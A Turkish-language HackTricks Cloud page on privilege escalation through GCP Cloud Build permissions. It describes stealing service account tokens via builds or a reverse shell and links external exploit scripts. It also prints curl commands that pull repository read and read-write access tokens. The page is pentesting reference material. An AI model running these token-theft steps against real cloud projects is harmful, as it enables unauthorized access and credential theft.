 # GCP - Cloudbuild Privilege Escalation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i takip edin.
* Hacking hilelerinizi [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek paylaşın.

</details>

## cloudbuild

Cloud Build hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../../gcp-pentesting/gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

Bu izinle bir **bulut yapısı oluşturabilirsiniz**. Cloudbuild makinesi, **varsayılan olarak cloudbuild Hizmet Hesabı'nın bir belirteci** olan `<PROJE_NUMARASI>@cloudbuild.gserviceaccount.com` içerir. Bununla birlikte, cloudbuild yapılandırmasında **proje içindeki herhangi bir hizmet hesabını belirtebilirsiniz**.\
Bu nedenle, makineyi sadece belirteci sunucunuza dışa aktarabilir veya **içine ters kabuk alabilir ve belirteci kendiniz alabilirsiniz** (belirteci içeren dosya değişebilir).

Orijinal saldırı betiğini [**burada GitHub'ta**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) bulabilirsiniz (ancak belirteci nereden aldığı konumu benim için çalışmadı). Bu nedenle, [**bir zafiyetli ortamın oluşturulması, saldırı ve temizleme işlemlerini otomatikleştiren bir betik**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) ve cloudbuild makinesi içinde ters kabuk almak ve [**çalmak için bir python betiği**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py) bulabilirsiniz (koddan diğer hizmet hesaplarını nasıl belirteceğinizi bulabilirsiniz)**.**

Daha detaylı bir açıklama için [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/) adresini ziyaret edin.

### `cloudbuild.builds.update`

Bu izinle **potansiyel olarak** bir bulut yapısını **güncelleyebilir ve hizmet hesabı belirteci çalabilirsiniz**. Ancak, bu yazının yazıldığı sırada bu API'yi çağırmak için herhangi bir yol bulamadım.

TODO

### `cloudbuild.repositories.accessReadToken`

Bu izinle kullanıcı, depoya erişmek için kullanılan **okuma erişim belirtecini** alabilir:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Bu izinle kullanıcı, depoya erişmek için kullanılan **okuma ve yazma erişim belirteci**ni alabilir:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Bu izinle, bağlantının erişimine sahip olduğu depoları alabilirsiniz:

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

<details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
